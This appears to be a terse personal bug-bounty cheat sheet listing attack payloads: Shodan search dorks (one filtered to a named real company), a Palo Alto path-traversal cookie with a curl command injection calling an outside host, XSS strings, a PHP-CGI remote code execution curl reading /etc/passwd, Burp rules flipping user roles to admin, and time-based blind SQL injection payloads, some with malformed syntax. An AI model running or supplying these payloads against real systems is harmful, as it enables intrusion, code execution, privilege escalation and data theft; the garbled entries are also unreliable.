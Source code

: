
## Domain Fuzz

- http.title:"Welcome to Grafana" 


## PaloAlto -> CVE

- Path => 
- /ssl-vpn/hipreport.esp
- Cookie =: /../../../opt/panlogs/tmp/device_telemetry/minute/hellothere
- curl${IFS}https://freeapitest.free.beeceptor.com; 
- Fuff
- dirsearch
- gobuster

## intrensting
- \_ignition/health-check --
- +SRC="X"+onerror=confirm(11)
- %25%33%63img+%25%33%65
- /api/graphql/
- /api/v1/
- /api/v2/
- /api/v3/
- /api/grph/

## XSS Test Url

## Rce Exploit Path

- curl -kv "<https://about.php?PHPRC=/dev/fd/0"> --data-binary 'auto_prepend_file="/etc/passwd"'

- title:"Juniper" http.favicon.hash:2141724739 org:cbre.com

## Burp Role-Regex

- "Role":"user" ->   "Role":"admin"
- "IsAdmin":false -> "IsAdmin":true
- X-Bug-Bounty:max0a

## Sqlinjection Test Param

- 0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 
- 1'XOR(if(SELECT+'a'+FROM+users,sleep(5),0))XOR'z 
- 0'XOR(if(SELECT%20COUNT(username)%20FROM%20users)%2b3,sleep(3),0))XOR'Z
- 0'XOR(if(SELECT%20LENGTH(username)%20FROM%20users%WHERE%20id=1)=$$,sleep(5),0))XOR'Z
- 0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z
- 0' SELECT+(IF(COUNT(users)))
- 5 users
- SELECT * FROM users WHERE username='$username' AND password='$password' LIMIT 1
